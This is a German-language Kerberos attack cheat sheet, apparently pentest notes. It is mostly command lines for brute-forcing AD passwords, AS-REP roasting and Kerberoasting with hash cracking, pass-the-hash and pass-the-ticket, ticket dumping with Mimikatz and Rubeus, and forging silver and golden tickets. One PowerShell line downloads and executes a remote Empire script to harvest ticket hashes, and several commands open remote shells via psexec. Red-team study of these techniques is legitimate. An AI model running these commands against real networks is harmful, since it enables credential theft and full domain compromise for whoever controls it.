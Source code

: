 ```yaml
---
description: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
---
```


# Kerberos

### **Brute-Force-Angriffe**

Mit [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):

```bash
python kerbrute.py -domain <domänenname> -users <benutzerdatei> -passwords <passwortdatei> -outputfile <ausgabedatei>
```

Mit [Rubeus](https://github.com/Zer1t0/Rubeus) (Brute-Modul):

```bash
# Mit einer Liste von Benutzern
.\Rubeus.exe brute /users:<benutzerdatei> /passwords:<passwortdatei> /domain:<domänenname> /outfile:<ausgabedatei>

# Überprüft Passwörter für alle Benutzer der aktuellen Domäne
.\Rubeus.exe brute /passwords:<passwortdatei> /outfile:<ausgabedatei>
```

***

### **ASREPRoasting**

Ein Angriff, bei dem ein Angreifer Benutzerkonten ohne Pre-Authentication nutzt. Er fordert ein AS-REP (Authentication Service Reply) vom Domain Controller an und erhält ein Ticket, das offline mit Brute-Force-Methoden geknackt werden kann, um das Passwort des Benutzers zu ermitteln.

Mit [Impacket](https://github.com/SecureAuthCorp/impacket) – GetNPUsers.py:

```bash
# Für alle Domänenbenutzer (Anmeldedaten erforderlich)
python GetNPUsers.py <domäne>/<benutzer>:<passwort> -request -format <[hashcat | john]> -outputfile <ausgabedatei>

# Mit Benutzerliste (ohne Anmeldedaten)
python GetNPUsers.py <domäne>/ -usersfile <benutzerdatei> -format <[hashcat | john]> -outputfile <ausgabedatei>
```

Mit [Rubeus](https://github.com/GhostPack/Rubeus):

```bash
.\Rubeus.exe asreproast /format:<[hashcat | john]> /outfile:<ausgabedatei>
```

Hash-Cracking:

```bash
hashcat -m 18200 -a 0 <asrep_hashes> <passwortliste>
john --wordlist=<passwortliste> <asrep_hashes>
```

***

### **Kerberoasting**

Ein Angriff, bei dem ein Angreifer Service-Tickets (TGS) für Kerberos-geschützte Dienste anfordert. Die Tickets werden offline bruteforciert, um schwache Passwörter von Servicekonten zu erlangen – ohne verdächtige Netzwerkaktivität.

Mit \[Impacket] – GetUserSPNs.py:

```bash
python GetUserSPNs.py <domäne>/<benutzer>:<passwort> -outputfile <ausgabedatei>
```

Mit [Rubeus](https://github.com/GhostPack/Rubeus):

```bash
.\Rubeus.exe kerberoast /outfile:<ausgabedatei>
```

Mit **PowerShell**:

```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <[hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <ausgabedatei>
```

Hash-Cracking:

```bash
hashcat -m 13100 --force <tgs_hashes> <passwortliste>
john --format=krb5tgs --wordlist=<passwortliste> <tgs_hashes>
```

***

### **Overpass-The-Hash / Pass-The-Key (PTK)**

Ein Angriff, bei dem ein NTLM-Hash (anstelle des Klartextpassworts) verwendet wird, um ein Kerberos Ticket Granting Ticket (TGT) über eine `kerberos::ptt`-ähnliche Technik zu generieren. Damit kann sich der Angreifer authentifizieren, ohne jemals das tatsächliche Passwort zu kennen.

Mit \[Impacket]:

```bash
# Ticket (TGT) mit Hash anfordern
python getTGT.py <domäne>/<benutzer> -hashes [lm_hash]:<ntlm_hash>

# Mit AES-Schlüssel
python getTGT.py <domäne>/<benutzer> -aesKey <aes_key>

# Mit Passwort (wird bei Bedarf abgefragt)
python getTGT.py <domäne>/<benutzer>:<passwort>

# Ticket verfügbar machen
export KRB5CCNAME=<ticket_datei>

# Remote-Befehle ausführen
python psexec.py <domäne>/<benutzer>@<host> -k -no-pass
python smbexec.py <domäne>/<benutzer>@<host> -k -no-pass
python wmiexec.py <domäne>/<benutzer>@<host> -k -no-pass
```

Mit \[Rubeus] + \[PsExec]:

```bash
.\Rubeus.exe asktgt /domain:<domäne> /user:<benutzer> /rc4:<ntlm_hash> /ptt
.\PsExec.exe -accepteula \\<host> cmd
```

***

### **Pass-The-Ticket (PTT)**

Ein Angriff, bei dem ein gültiges Kerberos-Ticket (TGT oder TGS) direkt in den Speicher eines Prozesses injiziert wird. Dadurch kann sich der Angreifer als der Ticketinhaber ausgeben, ohne dessen Anmeldedaten zu kennen.

#### Tickets unter Linux sammeln

Prüfen:

```bash
grep default_ccache_name /etc/krb5.conf
```

Falls _KEYRING_, nutze \[tickey]:

```bash
cp tickey /tmp/tickey
/tmp/tickey -i
```

#### Tickets unter Windows sammeln

Mit **Mimikatz**:

```bash
sekurlsa::tickets /export
```

Mit **Rubeus**:

```powershell
.\Rubeus.exe dump
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<base64_ticket>"))
```

**Format konvertieren** (\[ticket\_converter.py]):

```bash
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

#### Ticket unter Linux verwenden

```bash
export KRB5CCNAME=<ticket_datei>
python psexec.py <domäne>/<benutzer>@<host> -k -no-pass
```

#### Ticket unter Windows verwenden

**Mimikatz**:

```bash
kerberos::ptt <ticket.kirbi>
```

**Rubeus**:

```bash
.\Rubeus.exe ptt /ticket:<ticket.kirbi>
```

**Befehl ausführen (z. B. PsExec)**:

```bash
.\PsExec.exe -accepteula \\<host> cmd
```

***

### **Silver Ticket**

Ein **Silver Ticket** ist ein gefälschtes **Service Ticket (TGS)**, das lokal erstellt wird, um Zugriff auf einen bestimmten Kerberos-geschützten Dienst zu erhalten. Es erfordert nur den Hash des Dienstkontos (z. B. eines SQL- oder Webdienstes), nicht den KRBTGT-Key.

Mit \[Impacket]:

```bash
python ticketer.py -nthash <ntlm_hash> -domain-sid <domänen_sid> -domain <domäne> -spn <dienst_spn> <benutzer>
python ticketer.py -aesKey <aes_key> ...
export KRB5CCNAME=<ticket_datei>
python psexec.py ...
```

Mit **Mimikatz**:

```bash
kerberos::golden /domain:<domäne>/sid:<sid> /rc4:<ntlm_hash> /user:<benutzer> /service:<dienst> /target:<zielhost>
```

***

### **Golden Ticket**

Ein **Gold Ticket** ist ein gefälschtes **Ticket Granting Ticket (TGT)** in Kerberos, das mit dem geheimen **KRBTGT-Schlüssel** erstellt wurde. Damit kann sich ein Angreifer gegenüber jedem Dienst im Active Directory als beliebiger Benutzer (z. B. Domain-Admin) ausgeben. Voraussetzung: Zugriff auf den KRBTGT-Key.

Mit \[Impacket]:

```bash
python ticketer.py -nthash <krbtgt_ntlm> -domain-sid <sid> -domain <domäne> <benutzer>
```

Mit **Mimikatz**:

```bash
kerberos::golden /domain:<domäne>/sid:<sid> /aes256:<aes_key> /user:<benutzer>
```

Dann Ticket wie oben injizieren (Rubeus, Mimikatz) und ausführen (z. B. PsExec).

***

### **Sonstiges**

NTLM aus Passwort erzeugen:

```python
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<passwort>".encode("utf-16le")).digest())'
```

***

<details>

<summary>Tools</summary>

[Impacket](https://github.com/SecureAuthCorp/impacket)

[Mimikatz](https://github.com/gentilkiwi/mimikatz)

[Rubeus](https://github.com/GhostPack/Rubeus)

[Rubeus (mit Brute-Modul)](https://github.com/Zer1t0/Rubeus)

[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

[kerbrute.py](https://github.com/TarlogicSecurity/kerbrute)

[tickey](https://github.com/TarlogicSecurity/tickey)

[ticket\_converter.py](https://github.com/Zer1t0/ticket_converter)

</details>
